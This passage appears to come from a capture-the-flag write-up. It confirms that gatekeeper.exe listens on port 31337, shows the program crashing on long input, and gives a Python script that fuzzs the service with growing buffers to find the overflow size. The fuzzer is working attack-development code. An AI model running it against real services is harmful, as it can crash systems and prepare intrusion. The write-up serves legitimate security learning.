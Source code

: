 We can now confirm that the `gatekeeper.exe` file is the service running on port `31337`. Since it takes our input and echoes it back, we can test to see if it is vulnerable to buffer overflow by sending a long string.

![](gatekeeper-crashed.png)

As we send a bunch of `A`s, the program crashes. This means that the program is vulnerable to buffer overflow. We can create a Python script to fuzz the program to confirm the exact buffer size.

```python
#!/usr/bin/env python3

import socket, time, sys

ip = "<LOCAL_ADDRESS>"
port = 31337
timeout = 5

name = "A" * 100

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.settimeout(timeout)
s.connect((ip, port))

while True:
    try:
        print("Sending {} bytes...".format(len(name)))
        s.send(bytes(name + "\r\n", "latin-1"))
        s.recv(1024)
        name += "A" * 100
        time.sleep(5)
    except:
        print("Fuzzing crashed at {} bytes.".format(len(name)))
        sys.exit(0)
```
